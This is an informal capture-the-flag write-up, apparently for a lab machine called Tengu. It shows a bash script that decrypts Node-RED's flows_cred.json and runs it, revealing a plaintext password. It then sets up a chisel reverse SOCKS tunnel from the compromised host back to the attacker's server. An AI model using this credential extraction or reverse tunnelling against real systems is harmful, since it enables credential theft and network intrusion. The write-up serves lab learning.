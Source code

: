 i just did it if files name is default and its seems deafult

its seems like great source

[BLOG FOR THIS](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/)

that could be our script

    #!/bin/bash
    #
    # Decrypt flows_cred.json from a NodeRED data directory
    #
    # Usage
    # ./node-red-decrypt-flows-cred.sh ./node_red_data
    #
    jq  '.["$"]' -j $1/flows_cred.json | \
    cut -c 33- | \
    openssl enc -aes-256-ctr -d -base64 -A -iv `jq  -r '.["$"]' $1/flows_cred.json | cut -c 1-32` -K `jq -j '._credentialSecret' $1/.config.runtime.json | sha256sum | cut -c 1-64`

this is how to work 😉

    ➜  10.10.158.55:8000 ls -la
    total 16
    drwxrwxr-x 3 root root 4096 Feb  4 17:19 .
    drwxrwxr-x 4 root root 4096 Feb  4 17:16 ..
    -rw-rw-r-- 1 root root  366 Feb  4 17:19 crack.sh
    drwxrwxr-x 4 root root 4096 Feb  4 17:16 .node-red
    ➜  10.10.158.55:8000 bash crack.sh .node-red
    {"d237b4c16a396b9e":{"username":"nodered_connector","password":"DreamPuppyOverall25"}}

DreamPuppyOverall25 lets try this

its actually not work for labadmin

    nodered_svc@nodered:/home$ su - labadmin
    Password: 
    su: Authentication failure

we have 2 ip adress more but we just got 3389 open so lets so socks forwarding at nmap again

#### socks-forwarding

    ➜  Tengu ./chisel_linux server -p 1234 --reverse

    2025/02/04 17:23:00 server: Reverse tunnelling enabled
    2025/02/04 17:23:00 server: Fingerprint UgoHoiO5AkZoB5rF4iwRiwEsidpbPtqOukhtZxIW7kQ=
    2025/02/04 17:23:00 server: Listening on http://0.0.0.0:1234
    2025/02/04 17:23:49 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
at target
    nodered_svc@nodered:/tmp$ ./chisel_linux client 10.8.2.152:1234 R:1080:socks
    2025/02/04 23:23:47 client: Connecting to ws://10.8.2.152:1234
    2025/02/04 23:23:47 client: Connected (Latency 72.646467ms)
